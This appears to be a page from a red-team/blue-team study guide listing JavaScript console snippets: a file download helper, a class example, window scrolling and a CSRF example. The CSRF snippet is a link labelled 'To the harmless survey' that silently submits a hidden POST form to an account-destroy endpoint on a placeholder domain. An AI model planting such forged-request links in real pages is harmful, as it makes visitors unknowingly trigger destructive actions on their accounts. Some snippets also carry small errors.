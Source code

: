 
# CODE EXAMPLES
1. [DOWNLOAD FILE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#download-file-webconsole)
2. [CREATE CLASS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#create-class-webconsole)
3. [CONTROL WINDOW SIDEBAR](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#control-window-sidebar-webconsole)
4. [CSRF](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#csrf)

<br />

## Download File (WebConsole)
```
function downloadURI(uri, name) 
{
    var link = document.createElement("a");
    // If you don't know the name or want to use
    // the webserver default set name = ''
    link.setAttribute('download', name);
    link.href = uri;
    document.body.appendChild(link);
    link.click();
    link.remove();
}
downloadURI("https://example.com/file.png", "captcha1")
```
<br />

## Create Class (WebConsole)
```
class Animals {
  constructor(name, age) {
    this.name = name;
    this.specie = age;
  }
  
  sing(){
    return `${this.name} can sing.`;
  }
  
  dance(){
    return `${this.name} can dance.`;
  }
}  

let bingo = new Animals("bingo", "10");
console.log(bingo);
console.log(bingo.sing());
```
<br />

## Control Window Sidebar (WebConsole)
- Open WebDev Tool
- `window.scrollby(x, y);`

<br />

## CSRF
```
<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
```

<br />
